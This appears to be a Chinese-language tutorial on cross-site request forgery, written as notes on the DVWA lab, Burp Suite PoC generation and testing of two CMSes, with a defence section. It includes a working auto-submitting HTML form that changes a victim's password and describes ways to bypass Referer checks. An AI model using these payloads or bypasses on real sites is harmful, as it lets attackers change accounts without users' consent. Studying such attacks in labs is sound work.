

## 1.漏洞原理
`Cross-site request forgery`简称`CSRF`，在对应场景中攻击者伪造请求，诱导点击，一旦点击攻击完成，因此`CSRF`共计也称为`onclick`攻击

### 前提
用户已在目标网站（如银行、论坛）通过认证，浏览器保存了该站点的 `Cookie`（`Session ID` 等）。

### 攻击本质
攻击者构造一个恶意请求，诱导用户浏览器自动发送该请求到目标网站。由于浏览器会自动携带目标网站的 `Cookie`，服务器认为请求来自合法用户，从而执行非用户本意的操作。

### 关键信任点
浏览器会自动在请求中附加与目标站点相关的 Cookie，服务器仅凭 Cookie 认证用户身份，却未校验请求是否由用户真实意图发起

### 分类
1. 站内
	1. 自己请求自己本地站
2. 站外
	1. 请求外部站

---

## 2.漏洞利用
> 靶场：DVWA

### 基础
**最简单确认方式**：
抓取数据包，去除`Referer`字段后再次提交，如果该提交有效，基本确定存在`CSRF`漏洞
`Referer`字段验证请求的来源，如果去除后依旧请求正常完成，说明目标网站不限制请求来源

**利用方式：**
- 站内：
	- 通过抓包对比发现，响应请求参数为GET类型，只要凭借好完整URL发给受害者即可，受害者正在登陆状态下点击打开URL就中招了
- 站外：
	- 自己构建HTML，放在公网，受害者访问（操作）后跳转正常网站，但是已经中招结束（钓鱼网站？）

```HTML
<!-- 下面的action属性代表提交后所跳转的连接-->
<form action="http://192.168.10.197/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change">
    New password:<br>
    <input type="password" autocomplete="off" name="password_new" value="404404"><br>Confirm new password:<br>
    <input type="password" autocomplete="off" name="password_conf" value="404404"><br><br>
    <input type="submit" value="Change" name="Change" id="send">
</form>
<script>
    setTimeout(function(){
        var send = document.getElementById("send");
        send.click();
    }, 2000);
</script>
```

### 进阶-绕过
通过代码审计可得知部分网站采取以下形式防护
```PHP
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )
# 监察referer请求来源是否本网站
```

但是只使用Referer进行校验并不保险，形同虚设，一般有两种方式：
1. 只检查域名是否以此开头
2. 只检查是否包含自己的域名
	1. 该靶场可以将HTML名改为对应的域名或IP，来使得referer里包含所需对应的来达到对应效果

两者均可通过注册一个含目标域名开头的域名来进行绕过

---

## 3.利用工具
BP抓包后右键使用相关工具可以使用CSRF POC生成
以下是个生成的无用示例代码
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://www.cnblogs.com/qiushuo/p/17485659.html">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      <!-->history.pushState('', '', '/');建议这行删掉不然无法完美实现自动跳转
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## 4.真实CMS演示
### T11/admin

- 选定测试功能点--添加管理员
- BP抓包，删除referer进行测试
- 使用BP生成csrf poc进行测试

### dedecms/织梦CMS


该靶场搭建要在服务器中给予权限，该靶场包含漏洞较多
- 选定测试功能点--文件管理
- BP抓包，删除referer进行测试
- 使用BP生成csrf poc进行测试
## 5.防御/修复
### 服务端
1. `Referer`字段验证
2. 在请求地址中添加`token`并验证
3. 再HTTP头中自定义属性并验证
4. 同源策略
	1. 可防御xss、csrf
	2. 同协议、同端口、同域名
5. 区分好POST与GET的数据请求
	1. 不要直接使用Request获取数据
	2. 不建议用GET请求执行持续性操作
### 用户端
1. 良好上网习惯
2. 安装杀软并及时更新

---

## 6.绕过
### 本地文件执行
结合其他漏洞将恶意文件上传至受害者服务器本地
1. 文件上传+CSRF
2. 存储型XSS+CSRF
### 特征匹配
检验referer特征
1. 完全匹配
2. 模糊匹配：只要前置或包含自己域名，绕过方式上文已有
3. 置空特征：假验证，代码逻辑缺陷，置空referer后依旧可行

### token复用
部分网站使用token进行校验，存在token复用的现象

---

